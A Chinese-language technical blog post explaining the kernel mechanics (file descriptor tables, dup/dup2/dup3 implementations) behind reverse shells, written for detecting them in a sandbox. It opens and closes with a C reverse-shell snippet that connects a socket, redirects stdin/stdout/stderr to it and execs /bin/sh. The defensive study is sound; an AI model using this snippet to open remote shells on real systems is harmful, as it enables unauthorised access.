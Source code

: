 ### 前言
前段时间一直在研究怎么在沙箱环境中检测反弹Shell行为，在这个过程中遇到一些疑问

### 反弹Shell常见特征
```c
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
```
这里最神奇的是执行完后，`connect`的远程服务器可以和本机`bash`交互，有一个输入输出终端。


### 内核实现

#### 文件描述符
要想理解I/O重定向，需要理解文件描述符概念，参考上一篇文章[Linux文件系统基础](Linux文件系统基础.md)
![](images/file_obj_relas.png)

简单总结下，Linux每个进程维护了一个open文件的文件描述符表`current->files->fdt->fd`
```c
struct task_struct{
    ...
	/* Open file information: */
	struct files_struct		*files;
    ...
}


struct files_struct {
  /*
   * read mostly part
   */
	atomic_t count;
	bool resize_in_progress;
	wait_queue_head_t resize_wait;

	struct fdtable __rcu *fdt;
	struct fdtable fdtab;
  /*
   * written part on a separate cache line in SMP
   */
	spinlock_t file_lock ____cacheline_aligned_in_smp;
	unsigned int next_fd;
	unsigned long close_on_exec_init[1];
	unsigned long open_fds_init[1];
	unsigned long full_fds_bits_init[1];
	struct file __rcu * fd_array[NR_OPEN_DEFAULT];
};

```
`current->files->fdt->fd`实质指向`current->files->fd_array`
这个数组保留了进程open的每一个文件的实例`struct file`，所有的文件操作都由该结构完成。

#### dup
重定向主要由几个`dup`系列系统掉调用完成
```c
asmlinkage long sys_dup(unsigned int fildes);
asmlinkage long sys_dup2(unsigned int oldfd, unsigned int newfd);
asmlinkage long sys_dup3(unsigned int oldfd, unsigned int newfd, int flags);
```
man上对它们的解释：
* dup: 创建一份oldfd的拷贝，返回一个新的newfd（最小没有使用的文件描述符），指向同一个文件
* dup2: 作用是和`dup`相同的，不过newfd是自己指定的；换言之，newfd也指向oldfd同一个文件
* dup3: 作用和`dup2`相同
  *  可以指定`close-on-exec`flag（O_CLOEXEC）
  *  如果oldfd和newfd相同，dup3调用失败

sys_dup的内核实现
```c
SYSCALL_DEFINE1(dup, unsigned int, fildes)
{
	int ret = -EBADF;
	struct file *file = fget_raw(fildes);

	if (file) {
		ret = get_unused_fd_flags(0);
		if (ret >= 0)
			fd_install(ret, file);
		else
			fput(file);
	}
	return ret;
}
```
`sys_dup`主要是根据文件描述符fd通过`fget_raw`获得对应的`struct file`结构；然后获得一个当前未使用的最小fd，再通过`fd_install`将新fd和原`struct file`结构关联：
```c
	struct files_struct *files = current->files;
	struct fdtable *fdt;
    ...
	fdt = rcu_dereference_sched(files->fdt);
	...
	rcu_assign_pointer(fdt->fd[fd], file);
```
实际就是在当前进程的fdtable新加一项: newfd->file结构，即新分配的fd也同样指向原file.

sys_dup2的内核实现
```c
SYSCALL_DEFINE2(dup2, unsigned int, oldfd, unsigned int, newfd)
{
	if (unlikely(newfd == oldfd)) { /* corner case */
		struct files_struct *files = current->files;
		int retval = oldfd;

		rcu_read_lock();
		if (!files_lookup_fd_rcu(files, oldfd))
			retval = -EBADF;
		rcu_read_unlock();
		return retval;
	}
	return ksys_dup3(oldfd, newfd, 0);
}
```
处理一种与`dup3`不同的特殊情况即`oldfd`和`newfd`，只是校验下oldfd是否有效，直接返回。
最终由`ksys_dup3`处理, flags默认0
```c
static int ksys_dup3(unsigned int oldfd, unsigned int newfd, int flags)
{
	int err = -EBADF;
	struct file *file;
	struct files_struct *files = current->files;

	if ((flags & ~O_CLOEXEC) != 0)
		return -EINVAL;

	if (unlikely(oldfd == newfd))
		return -EINVAL;

	if (newfd >= rlimit(RLIMIT_NOFILE))
		return -EBADF;

	spin_lock(&files->file_lock);
	err = expand_files(files, newfd);
	file = files_lookup_fd_locked(files, oldfd);
	if (unlikely(!file))
		goto Ebadf;
	if (unlikely(err < 0)) {
		if (err == -EMFILE)
			goto Ebadf;
		goto out_unlock;
	}
	return do_dup2(files, file, newfd, flags);

Ebadf:
	err = -EBADF;
out_unlock:
	spin_unlock(&files->file_lock);
	return err;
}
```
先做了一些校验：
* flags可以唯一指定O_CLOEXEC（针对dup3）
* newfd和oldfd不能相同（针对dup3来的）
* newfd的上限值

如果`newfd`大于当前进程`fdt->max_fd`将扩展`fdt`（重新按需分配一个fdt）
通过`files_lookup_fd_locked`获得oldfd的`struct file`结构
最后由`do_dup2`处理
```c
static int do_dup2(struct files_struct *files,
	struct file *file, unsigned fd, unsigned flags)
__releases(&files->file_lock)
{
	struct file *tofree;
	struct fdtable *fdt;
    ...
	fdt = files_fdtable(files);
	tofree = fdt->fd[fd];
	if (!tofree && fd_is_open(fd, fdt))
		goto Ebusy;
	get_file(file);
	rcu_assign_pointer(fdt->fd[fd], file);
	__set_open_fd(fd, fdt);
	if (flags & O_CLOEXEC)
		__set_close_on_exec(fd, fdt);
	else
		__clear_close_on_exec(fd, fdt);
	spin_unlock(&files->file_lock);

	if (tofree)
		filp_close(tofree, files);

	return fd;

Ebusy:
	spin_unlock(&files->file_lock);
	return -EBUSY;
}
```
主要工作和`sys_dup`是相同的，就是修改`fdt->fd[newfd]`指向oldfd的`struct file`结构；
但是由于`newfd`是指定的已经存在的`fd`，所以有一定的概率此时`newfd`文件还是在`open`状态，如果直接修改，导致仍然对原`newfd`文件的操作发生非预期的情况，所以多了一步`fd_is_open`的校验。

sys_dup3实际上和sys_dup2差别不大，最终也是由ksys_dup3->do_dup2完成。


### 结束语
现在再回过头看开篇的那一个常见的反弹shell代码
```c
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
```
实际上就是将该进程的stdin/stdout/stderr文件描述符都指向了socket文件描述符，
所以对于该进程，从`stdin`读，实际变成了读`socket`内容；
向`stdout/stderr`写（输出），实际上是向`socket`写；
这就是为什么能够产生一个交互式的`bash`的原因了。

### 参考
[man-dup2](https://man7.org/linux/man-pages/man2/dup.2.html)
